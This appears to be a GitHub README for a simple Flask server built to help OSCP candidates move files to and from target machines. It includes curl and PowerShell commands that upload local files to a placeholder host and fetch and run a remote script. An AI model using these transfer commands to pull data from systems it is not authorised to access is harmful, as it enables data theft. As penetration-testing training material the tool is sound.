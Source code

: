 # multi_server

**Warning : This app is designed to help during the OSCP to download/exfiltrate datas. Not to be run in production.**

Tested on : Python 3.11

A simple server in Flask to download/upload files.

	$ git clone https://github.com/adann0/multi_server.git
	$ cd multi_server
	$ python3 -m venv venv
	$ source venv/bin/activate
	$ pip install -r requirements.txt
	$ pip install .

You can then run the Server :

	$ python3 -m multi_server <port>

You can access the webapp at `http://<ip>:<port>`.

You can download the files in the current folder from the command line, for example :

    PS > iwr -uri http://<ip>:<port>/<file> -outfile <file>

You can also upload your files, on Linux :

    $ curl -X POST -F "file=@<file_path>" http://<ip>:<port>/upload

Or with Powershell :

    PS > iwr -uri https://raw.githubusercontent.com/adann0/multi_server/main/upload.ps1 -outfile upload.ps1
    PS > .\upload.ps1 -ip <ip> [-port <port>] -file <file_path> 

The uploaded files are in **uploads/**.

## Source

- https://www.geeksforgeeks.org/how-to-upload-file-in-python-flask/
